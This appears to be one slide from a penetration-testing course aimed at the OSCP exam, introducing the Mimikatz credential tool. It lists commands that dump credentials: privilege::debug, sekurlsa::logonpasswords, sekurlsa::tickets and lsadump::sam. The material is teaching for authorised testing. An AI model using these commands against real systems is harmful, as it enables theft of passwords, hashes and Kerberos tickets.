

# Mimikatz
Very popular (and very detectable) tool to play with credentials
Don’t worry about detection for OSCP – the binary will be just fine

Most functions require a local administrator account
Can be elevated to SYSTEM by using privilege::debug

Common commands for gathering credentials
sekurlsa::logonpasswords (logged on/recently logged on hashes)
sekurlsa::tickets (any TGTs/TGSs stored on the system)
lsadump::sam (Security Account Manager – local credentials)
284